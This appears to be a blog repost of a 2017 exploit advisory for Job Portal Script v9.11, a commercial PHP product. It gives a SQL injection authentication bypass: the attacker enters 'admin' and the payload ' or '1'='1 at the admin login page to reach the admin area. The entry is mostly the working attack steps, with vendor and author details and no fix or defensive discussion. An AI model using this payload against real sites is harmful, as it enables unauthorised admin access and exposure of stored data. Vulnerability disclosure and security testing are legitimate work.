 <br>---
<br>layout: post
<br>title: Job Portal Script v9.11 Authentication bypass - 12.01.2017
<br>---

<br>Authentication bypass should give you access to the admin area.
<br># Vulnerability: Job Portal Script v9.11 Authentication bypass
<br># Date: 12.01.2017
<br># Software link: http://itechscripts.com/job-portal-script/
<br># Demo:  http://job-portal.itechscripts.com
<br># Price: 199$
<br># Category: webapps
<br># Exploit Author: Dawid Morawski
<br># Website: http://www.morawskiweb.pl
<br># Contact: dawid.morawski1990@gmail.com
<br>#######################################
<br>
<br>1. Description
<br>Authentication bypass should give you access to the admin area.
 
<br>Go to http://localhost/[PATH]/admin/index.php and set:
<br> 
<br>Username: admin
<br>Password: ' or '1'='1
